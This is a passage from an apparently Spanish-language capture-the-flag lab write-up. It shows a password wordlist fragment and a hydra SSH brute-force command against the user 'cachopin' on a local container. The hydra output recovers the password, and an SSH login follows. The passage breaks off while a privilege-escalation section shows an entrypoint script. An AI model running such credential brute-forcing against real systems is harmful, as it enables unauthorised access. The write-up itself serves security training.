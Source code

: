 ```
ilovejack
ilovedanny
```

## Hydra

Si esta lista anterior la utilizamos como diccionario de contraseñas con el usuario `cachopin` y le tiramos un `hydra` veremos lo siguiente:

```shell
hydra -l cachopin -P client_list.txt ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-11 11:06:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 97 login tries (l:1/p:97), ~2 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: cachopin   password: simple
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 19 final worker threads did not complete until end.
[ERROR] 19 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-11 11:06:46
```

Vemos que nos descubrio las credenciales del usuario `cachopin`, por lo que nos conectaremos por `SSH`.

## SSH

```shell
ssh cachopin@<IP>
```

Metemos como contraseña `simple` y veremos que estamos dentro.

## Escalate Privileges

Si vemos el archivo `entrypoint.sh`:

```shell
#!/bin/bash

# Inicia el servicio SSH como root
service ssh start

# Cambia al usuario cachopin para ejecutar la aplicación Flask
exec su - cachopin -c "/home/cachopin/venv/bin/python /home/cachopin/app/app.py"
```
